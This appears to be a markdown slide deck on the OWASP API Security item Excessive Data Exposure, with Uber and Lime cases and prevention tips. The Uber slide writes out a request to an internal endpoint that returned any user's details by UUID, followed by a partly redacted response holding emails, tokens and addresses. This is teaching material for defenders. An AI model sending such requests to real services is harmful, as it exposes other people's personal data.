



# API3:2019
---
## Excessive Data Exposure

-----

## Excessive Data Exposure

> Looking forward to generic implementations, developers tend to expose all object properties without considering their individual sensitivity, relying on clients to perform the data filtering before displaying it to the user.

-----

## In other words...

- Not realizing we're sending sensitive data across the wire.
  - Front-end doesn't display commenter's addresses
  - But back-end sends all user data

- Could be deeply nested in responses

-----

## Implications

- User data leaks
- Operational data leaks

-----

## Just ask Uber
#### April 2019 (again)

Get anyone's details

```
POST /marketplace/\_rpc?rpc=getConsentScreenDetails HTTP/1.1
Host: bonjour.uber.com
{
  "language":"en",
  "userUuid":"xxxx–776–4xxxx1bd-861a-837xxx604ce"
}
```
---
```
{
  "status": "success",
  "data": {
    "data": {
      "language": "en",
      "userUuid": "xxxxxx1e"
    },
    "getUser": {
      "uuid": "cxxxxxc5f7371e",
      "firstname": "Maxxxx",
      "lastname": "XXXX",
      "role": "PARTNER",
      "languageId": 1,
      "countryId": 77,
      "mobile": null,
      "mobileToken": 1234,
      "mobileCountryId": 77,
      "mobileCountryCode": "+91",
      "hasAmbiguousMobileCountry": false,
      "lastConfirmedMobileCountryId": 77,
      "email": "xxxx@gmail.com",
      "emailToken": "xxxxxxxx",
      "hasConfirmedMobile": "no",
      "hasOptedInSmsMarketing": false,
      "hasConfirmedEmail": true,
      "gratuity": 0.3,
      "nickname": "abc@gmail.com",
      "location": "00000",
      "banned": false,
      "cardio": false,
      "token": "b8038ec4143bb4xxxxxx72d",
      "fraudScore": 0,
      "inviterUuid": null,
      "pictureUrl": "xxxxx.jpeg",
      "recentFareSplitterUuids": ["xxx"],
      "lastSelectedPaymentProfileUuid": "xxxxxx",
      "lastSelectedPaymentProfileGoogleWalletUuid": null,
      "inviteCode": {
        "promotionCodeId": xxxxx,
        "promotionCodeUuid": "xxxx",
        "promotionCode": "manishas105",
        "createdAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 76, 2, 21, 215, 101]
        },
        "updatedAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 76, 65, 211, 61, 9]
        }
      },
      "driverInfo": {
        "contactinfo": "999999999xx",
        "contactinfoCountryCode": "+91",
        "driverLicense": "None",
        "firstDriverTripUuid": null,
        "iphone": null,
        "partnerUserUuid": "xxxxxxx",
        "receiveSms": true,
        "twilioNumber": null,
        "twilioNumberFormatted": null,
        "cityknowledgeScore": 0,
        "createdAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 84, 21, 124, 80, 52]
        },
        "updatedAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 86, 152, 77, 41, 77]
        },
        "deletedAt": null,
        "driverStatus": "APPLIED",
        "driverFlowType": "UBERX",
        "statusLocks": null,
        "contactinfoCountryIso2Code": "KR",
        "driverEngagement": null,
        "courierEngagement": null
      },
      "partnerInfo": {
        "address": "Nxxxxxxx",
        "territoryUuid": "xxxxxx",
        "company": "None",
        "address2": "None",
        "cityId": 130,
        "cityName": "None",
        "firstPartnerTripUuid": null,
        "preferredCollectionPaymentProfileUuid": null,
        "phone": "",
        "phoneCountryCode": "+91",
        "state": "None",
        "vatNumber": "None",
        "zipcode": "None",
        "createdAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 84, 21, 124, 80, 52]
        },
        "updatedAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 101, 38, 177, 88, 137]
        },
        "deletedAt": null,
        "fleetTypes": [],
        "fleetServices": [],
        "isFleet": true
      },
      "analytics": {
        "signupLat": 133.28741199,
        "signupLng": 11177.1111,
        "signupTerritoryUuid": "xxxxx",
        "signupPromoId": null,
        "signupForm": "iphone",
        "signupSessionId": "xxxxxxx",
        "signupAppVersion": "2.64.1",
        "signupAttributionMethod": null,
        "createdAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 76, 2, 21, 219, 1]
        },
        "updatedAt": {
          "type": "Buffer",
          "data": [0, 0, 1, 76, 2, 21, 219, 1]
        },
        "signupCityId": 130,
        "signupDeviceId": null,
        "signupReferralId": null,
        "signupPromoCode": null,
        "signupPromoCodeUuid": null,
        "signupPromoUuid": null,
        "signupMethod": "REGULAR"
      },
      "createdAt": {
        "type": "Buffer",
        "data": [0, 0, 1, 76, 2, 21, 215, 153]
      },
      "updatedAt": {
        "type": "Buffer",
        "data": [0, 0, 1, 102, 81, 35, 153, 135]
      },
      "deletedAt": null,
      "tenancy": "uber/production",
      "mobileConfirmationStatus": "MOBILE_NOT_CONFIRMED",
      "nationalId": null,
      "nationalIdType": null,
      "merchantLocation": null,
      "lastConfirmedMobile": "xxxxxxxxxx",
      "requestedDeletionAt": null,
      "dateOfBirth": xxxxxx,
      "userTypes": null,
      "preferredName": "xxxxxxxx",
      "freightInfo": null,
      "tempPictureUrl": null,
      "identityVerified": null,
      "paymentEntityType": null,
      "riderEngagement": null,
      "identityRejectReasonUuid": null,
      "genderInferred": null,
      "genderIdentity": null,
      "genderDocumented": null,
      "riderIneligibleWdw": null,
      "defaultPaymentProfileByProduct": null,
      "loginEligibility": null
    },
    "getDisclosureVersionUuid": "",
    "getLocaleCopy": null
  }
}
```

-----

## Just ask Lime...
#### February 2020

Tons of details on every scooter in town...



---



-----

## Just ask Lime...
#### February 2020

Privacy concerns, competitive intel

  

https://www.imperva.com/blog/i-know-where-you-rode-last-summer-uncovering-the-security-issues-of-shared-scooter-services/

-----

## Prevention

- Inventory PII stored
- When developing endpoints ask:
  - Who's using this data?
  - Do they **need** every property?
- Review data returned by endpoints
  - Automated, schema-based testing